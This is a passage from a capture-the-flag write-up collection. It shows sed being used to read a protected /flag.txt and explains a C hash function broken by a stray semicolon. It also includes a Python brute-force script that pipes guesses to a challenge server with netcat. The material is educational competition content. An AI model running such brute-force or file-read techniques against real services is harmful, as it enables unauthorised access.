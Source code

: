 Using `sed`, it was then possible to read the flag from `/flag.txt`:

```
ctf@95e4daed32f9:~$ /bin/sed -r 's/(.*)/\1/i' /flag.txt
MCA{Belae1ief2pha8e}
```

## Solved By
[@iamrastating](https://twitter.com/iamrastating)

<hr />

# Challenge: Security as a Service
## Description
We love micro-services. And that’s why, from this point forward, we are declaring all applications that import, include, or require anything monolithic! And like all great micro-services it’s open source!

## Categories
Binary

## Points
150

## Solution
Within the function that generates the hash, the for loop is terminated early, due to a stray semi-colon:

```
int doHash(char* str) {
  int res, i;
  for (i=0, res=0; i<STR_LEN_SAFE - 1; ++i);
  {
    res += str[i];
    res *= str[i];
    res ^= str[i];
  }
  return res;
}
```

Due to this error, only a single character needed to be brute forced. The script below brute forces the character and returns the flag:

```python
import os
import string
fluff = "A"*19
alphabets = string.ascii_lowercase
alphabets = alphabets + string.ascii_uppercase

for i in alphabets:
    test = fluff + i
    print test
    os.system("echo " + test + " | nc 138.247.115.168 1337")
```
